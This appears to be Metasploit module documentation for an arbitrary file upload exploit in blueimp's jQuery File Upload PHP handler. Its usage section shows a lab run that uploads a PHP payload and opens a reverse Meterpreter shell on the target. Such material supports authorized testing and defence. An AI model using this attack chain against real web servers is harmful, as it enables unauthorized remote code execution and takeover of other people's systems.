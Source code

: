 ## Intro

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018. It has been present
since the `.htaccess` change in Apache 2.3.9.

This module provides a generic exploit against the jQuery widget.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf5 exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] 172.28.128.3:80 The target service is running, but could not be validated.
msf5 exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/yJF5WXoQgkwW1zK9nDxialLMXg.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54382) at 2018-10-22 22:20:20 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
